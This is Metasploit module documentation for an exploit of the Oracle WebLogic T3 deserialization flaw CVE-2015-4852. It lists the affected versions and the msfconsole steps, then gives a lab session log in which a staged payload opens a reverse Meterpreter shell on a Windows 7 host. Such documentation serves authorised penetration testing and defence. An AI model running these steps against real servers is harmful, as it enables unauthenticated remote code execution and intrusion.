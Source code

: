 ## Description
 Oracle Weblogic Server v10.3.6.0, v12.1.2.0, v12.1.3.0, and v12.2.1.0 are vulnerable to a deserialization vulnerability (CVE 2015-4852), which can be used to execute code on vulnerable systems. An unauthenticated user with network access via T3 could exploit the vulnerability. This module has been tested against Oracle Weblogic Server v10.3.6.0 and v12.1.3.0 running on Windows 7 x64 using JDK v7u80.
## Vulnerable Application
 Oracle Weblogic Server v10.3.6.0, v12.1.2.0, v12.1.3.0, and v12.2.1.0.
## Verification Steps
 1. `./msfconsole -q`
 2. `use exploit/multi/misc/weblogic_deserialize_rawobject`
 3. `set rhosts <rhost>`
 4. `set rport <srvport>`
 5. `exploit`
## Scenarios
### Tested on Windows 7 x64 running Oracle Weblogic Server 10.3.6.0 and 12.1.3.0 on JDK v7u80
 ```
 msf exploit(multi/misc/weblogic_deserialize_rawobject) > set rhost 192.168.192.6
 rhost => 192.168.192.6
 msf exploit(multi/misc/weblogic_deserialize_rawobject) > set rport 7001
 rport => 7001
 msf exploit(multi/misc/weblogic_deserialize_rawobject) > exploit

 [*] Started reverse TCP handler on 192.168.192.136:4444 
 [*] 192.168.192.6:7001 - Sending handshake...
 [*] 192.168.192.6:7001 - Sending T3 request object...
 [*] 192.168.192.6:7001 - Sending client object payload...
 [*] Sending stage (179779 bytes) to 192.168.192.6
 [*] Meterpreter session 7 opened (192.168.192.136:4444 -> 192.168.192.6:49266) at 2018-12-14 11:40:29 -0800
 
 meterpreter > sysinfo
 Computer        : GIOTTO-HS-W7
 OS              : Windows 7 (Build 7600).
 Architecture    : x64
 System Language : en_US
 Domain          : WORKGROUP
 Logged On Users : 2
 Meterpreter     : x86/windows
 ```
